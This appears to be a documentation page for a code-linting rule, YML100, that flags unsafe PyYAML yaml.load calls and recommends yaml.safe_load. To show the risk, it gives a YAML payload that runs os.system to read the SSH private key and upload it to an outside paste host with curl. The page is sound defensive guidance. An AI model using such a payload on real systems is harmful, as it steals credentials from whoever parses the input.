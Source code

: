# YML100

Use of unsafe yaml load. Allows instantiation of arbitrary objects. Consider yaml.safe_load().

The Pyyaml library's default loader will parse YAML like this:

```yaml
!!python/object/apply:os.system ["cat ~/.ssh/id_rsa | curl -F 'sprunge=<-' http://sprunge.us"]
```

Using `yaml.load` against this input would execute local commands on the host shell

## Deprecation in pyyaml 5.1

Newer versions of Pyyaml (5.1) will raise a warning, however many situations like web servers developers would not see this warning.

## Example

```python
import yaml
with open('cfg.yaml') as cfg:
    config = yaml.load(cfg)
```

## Quick Fixes

* Plugin will recommend [Safe Load Fixer](../fixes/safeloadfixer.md).

## See Also

* [YAML Load Input Documentation](https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation)